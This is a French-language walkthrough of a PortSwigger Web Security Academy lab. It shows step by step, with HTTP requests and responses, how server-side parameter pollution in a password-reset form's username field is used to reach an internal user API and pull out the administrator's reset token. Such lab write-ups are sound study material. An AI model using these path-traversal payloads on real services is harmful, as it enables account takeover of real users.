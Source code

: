 # Lab

https://portswigger.net/web-security/api-testing/server-side-parameter-pollution/lab-exploiting-server-side-parameter-pollution-in-rest-url

## Solution

Sur ce lab on a pas beaucoup de possibilité, mis à part le fait de pouvoir reset le password d'un utilisateur.

Cette fonctionnalité demande un username et envoie un mail de réinitialisation de mot de passe.

```http
POST /forgot-password HTTP/2
Host: 0afa005c032cd80f84cb05140034001e.web-security-academy.net
Cookie: session=yitoj60piwqjrtGN2UCyzxk211GBo4JE
Content-Length: 88
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Content-Type: x-www-form-urlencoded
Accept: */*
Origin: https://0afa005c032cd80f84cb05140034001e.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0afa005c032cd80f84cb05140034001e.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i

csrf=ODhGHgRmNlvlnW3SY55CuFo4kvHpRO2G&username=administrator
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"type":"email","result":"*****@normal-user.net"}
```

Si on essaie de tronquer la saisie avec un `#` encodé en URL, on obtient une erreur.

```http
username=administrator%23

{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}
```

Ce qui nous indique qu'il y a bien une partie de l'URL qui est ajouté à la fin de la requête.

On peut essayer de remonter les répertoires avec des `../` encodés en URL.

```http
username=../../../%23

{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}
```

Jusqu'à `../../../../` où on obtient une erreur différente.

```http
username=../../../../%23

{
  "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
}
```

Ce qui nous indique qu'on est sorti du répertoire de l'API.

On peut essayer de chercher des documentations d'API puisqu'un des messages nou indiquait `Please refer to the API definition` :

- `swagger.json`
- `openapi.json`
- `api.json`

```http
username=../../../../api.json%23

{
  "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
}
```

```http
username=../../../../swagger.json%23

{
  "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
}
```

```http
username=../../../../openapi.json%23

{
  "error": "Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n  \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}
```

On a un resultat avec `openapi.json` qui nous donne la documentation de l'API.

On y découvre la vraie URL de l'API : `/api/internal/v1/users/{username}/field/{field}`

En reprenant notre requête de départ, on peut essayer de modifier le chemin de l'URL.

```http
username=administrator/field/email%23

{"type":"email","result":"*****@normal-user.net"}
```

Bêtement, on peut essayer d'accéder au mot de passe ou au token de reset du mot de passe, mais ça ne fonctionne pas.

```http
username=administrator/field/password%23

{
  "type": "error",
  "result": "This version of API only supports the email field for security reasons"
}
```

Le message nous indique que `cette version` supporte uniquement le champ `email` pour des raisons de sécurité, ce qui veut dire qu'il y a une autre version.

Sur la documentation de l'API, on peut voir qu'il y a une version `2.0.0`, on peut essayer d'y accéder en modifiant notre requête :

```http
username=../../../../api/internal/v1/users/administrator/field/email%23

{"type":"email","result":"*****@normal-user.net"}
```

Avec `password` on a une erreur :

```http
username=../../../../api/internal/v1/users/administrator/field/password%23

{
  "type": "error",
  "result": "The provided field name \"password\" does not exist and cannot be retrieved"
}
```

En fouillant dans les requêtes faites par l'appli web, on trouve un fichier `/static/js/forgotPassword.js` contenant cette fonction nous donnant des informations sur le token de reset de mot de passe :

```javascript
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?passwordResetToken=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

On y découvre un nom de paramètre `passwordResetToken` qui est utilisé pour la réinitialisation du mot de passe.

Si on essaie de l'utiliser dans notre requête :

```http
username=../../../../api/internal/v1/users/administrator/field/passwordResetToken%23

{
  "type": "passwordResetToken",
  "result": "l0cvd4iwmxtfq8dwnncc8mnwrlkuejeh"
}
```

On obtient ce token qui nous permet d'accéder à `/forgot-password?reset-token=l0cvd4iwmxtfq8dwnncc8mnwrlkuejeh` et de réinitialiser le mot de passe de l'utilisateur `administrator`.